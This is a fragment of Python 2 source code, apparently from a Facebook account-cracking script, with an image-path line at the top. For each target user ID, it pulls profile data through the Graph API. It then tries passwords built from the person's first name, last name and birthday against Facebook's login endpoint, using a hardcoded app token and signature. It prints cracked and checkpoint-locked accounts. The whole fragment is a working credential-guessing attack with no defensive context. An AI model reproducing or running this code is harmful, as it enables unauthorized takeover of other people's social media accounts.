     print
    print 40 * '\x1b[1;97m\xe2\x95\x90'

    def main(arg):
        user = arg
        try:
            a = requests.get('https://graph.facebook.com/' + user + '/?access_token=' + toket)
            b = json.loads(a.text)
            pass1 = b['first_name'] + '123'
            data = urllib.urlopen('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=' + user + '&locale=en_US&password=' + pass1 + '&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6')
            q = json.load(data)
            if 'access_token' in q:
                print '\x1b[1;97m[\x1b[1;92mOK\xe2\x9c\x93\x1b[1;97m] ' + user + ' | ' + pass1
            else:
                if 'www.facebook.com' in q['error_msg']:
                    print '\x1b[1;97m[\x1b[1;93mCP\xe2\x9c\x9a\x1b[1;97m] ' + user + ' | ' + pass1
                else:
                    pass2 = b['first_name'] + '12345'
                    data = urllib.urlopen('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=' + user + '&locale=en_US&password=' + pass2 + '&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6')
                    q = json.load(data)
                    if 'access_token' in q:
                        print '\x1b[1;97m[\x1b[1;92mOK\xe2\x9c\x93\x1b[1;97m] ' + user + ' | ' + pass2
                    else:
                        if 'www.facebook.com' in q['error_msg']:
                            print '\x1b[1;97m[\x1b[1;93mCP\xe2\x9c\x9a\x1b[1;97m] ' + user + ' | ' + pass2
                        else:
                            pass3 = b['last_name'] + '123'
                            data = urllib.urlopen('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=' + user + '&locale=en_US&password=' + pass3 + '&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6')
                            q = json.load(data)
                            if 'access_token' in q:
                                print '\x1b[1;97m[\x1b[1;92mOK\xe2\x9c\x93\x1b[1;97m] ' + user + ' | ' + pass3
                            else:
                                if 'www.facebook.com' in q['error_msg']:
                                    print '\x1b[1;97m[\x1b[1;93mCP\xe2\x9c\x9a\x1b[1;97m] ' + user + ' | ' + pass3
                                else:
                                    lahir = b['birthday']
                                    pass4 = lahir.replace('/', '')
                                    data = urllib.urlopen('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=' + user + '&locale=en_US&password=' + pass4 + '&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6')
                                    q = json.load(data)
                                    if 'access_token' in q:
                                        print '\x1b[1;97m[\x1b[1;92mOK\xe2\x9c\x93\x1b[1;97m] ' + user + ' | ' + pass4
                                    else:
                                        if 'www.facebook.com' in q['error_msg']:
                                            print '\x1b[1;97m[\x1b[1;93mCP\xe2\x9c\x9a\x1b[1;97m] ' + user + ' | ' + pass4
        except:
            pass
